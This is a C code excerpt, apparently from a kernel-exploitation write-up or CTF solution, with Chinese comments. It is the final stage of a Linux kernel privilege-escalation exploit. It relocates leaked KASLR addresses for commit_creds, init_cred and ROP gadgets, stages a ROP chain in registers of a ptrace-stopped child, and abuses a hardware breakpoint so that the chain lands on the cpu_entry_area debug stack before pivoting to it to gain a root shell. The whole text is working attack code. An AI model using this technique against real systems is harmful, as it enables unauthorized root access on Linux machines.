 ```c
    kernel_base += kernel_offset;

    leak_info("kernel_offset", kernel_offset);
    leak_info("kernel_base", kernel_base);

    swapgs_restore_regs_and_return_to_usermode += kernel_offset + 0x31;
    commit_creds += kernel_offset;
    init_cred += kernel_offset;
    pop_rdi += kernel_offset;

    info("Preaparing hbp...");

    hbp_pid = fork();
    if (!hbp_pid)
    {
        // bind_core(0);

        ptrace(PTRACE_TRACEME, 0, NULL, NULL);
        raise(SIGSTOP); // 生成一个SIGSTOP信号，当前进程child停止运行

        __asm__(
            "mov r15,   pop_rdi;"
            "mov r14,   init_cred;"
            "mov r13,   commit_creds;" 
            "mov r12,   swapgs_restore_regs_and_return_to_usermode;"
            "mov rbp,   0;"
            "mov rbx,   0;"
            "mov r11,   shell_addr;"
            "mov r10,   user_cs;"
            "mov r9,    user_rflags;"
            "mov r8,    user_sp;"
            "mov rax,   user_ss;"
            "mov rcx,   0xcccccccc;"
            "mov rdx,   0xdddddddd;"
            "mov rsi,   buf;"
            "mov rdi,   [rsi];"
        );
        exit(1);
    }
    else if (hbp_pid < 0)
    {
        err_exit("Failed to create child process.");
    }
    else
    {
        // 3. father process
        waitpid(hbp_pid, &status, 0); // 确定子进程中raise(SIGSTOP)已执行完毕

        create_hbp(buf); // 给全局变量 buf 上一个硬件断点

        ptrace(PTRACE_CONT, hbp_pid, 0, 0);
        waitpid(hbp_pid, &status, 0); // 确定子进程触发到了硬件断点，进入trap

        ptrace(PTRACE_CONT, hbp_pid, 0, 0);
        waitpid(hbp_pid, &status, 0); // 确定子进程已退出执行，这个PTRACE_CONT和waitpid可以省略。进入trap后，寄存器信息已带入cpu_entry_area的DB stack中

        stack(0xfffffe0000010f58);
    
    }

    return 0;
}
```
